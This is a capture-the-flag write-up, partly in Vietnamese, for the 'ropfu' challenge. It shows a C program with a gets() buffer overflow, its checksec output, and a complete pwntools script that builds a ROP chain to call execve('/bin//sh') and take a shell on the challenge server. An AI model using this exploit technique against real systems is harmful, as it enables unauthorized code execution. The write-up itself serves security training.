

# ropfu

## Description

What's ROP?
Can you exploit the following program to get the flag?

## source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## solution

Bài này ko thể spawn shell bằng `system()` nên mình dùng `sys_execve` để spawn shell.
script:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host saturn.picoctf.net --port 55982 ./vuln
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'saturn.picoctf.net'
port = int(args.PORT or 51709)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

io = start()
padding = b'A' * 28
#payload
#.data section adddress
data_addr = 0x80e5060
#0x08059102: mov dword ptr [edx], eax; ret; 
mov = 0x08059102
#0x080583c8: pop eax; pop edx; pop ebx; ret; 
pop = 0x080583c8
#0x0804fb90: xor eax, eax; ret; 
#0x08049e39: pop ecx; ret; 

p = b''
p += padding
p += p32(pop) #pop eax,edx,ebx
p += b'/bin'
p += p32(data_addr)
p += b'aaaa'
p += p32(mov)
p += p32(pop) #pop eax,edx,ebx
p += b'//sh'
p += p32(data_addr+4)
p += b'bbbb'
p += p32(mov)
p += p32(pop) #pop eax,edx,ebx
p += b'aaaa' #eax
p += p32(data_addr+8)
p += p32(data_addr) 
p += p32(0x0804fb90) #xor eax,eax; ret;
p += p32(mov)
p += p32(0x08049e39)
p += p32(data_addr+8)
#0x0808055e: inc eax; ret; 
p += p32(0x0808055e)*11
#0x08071650
p += p32(0x08071650)


io.sendline(p)
io.interactive()
```

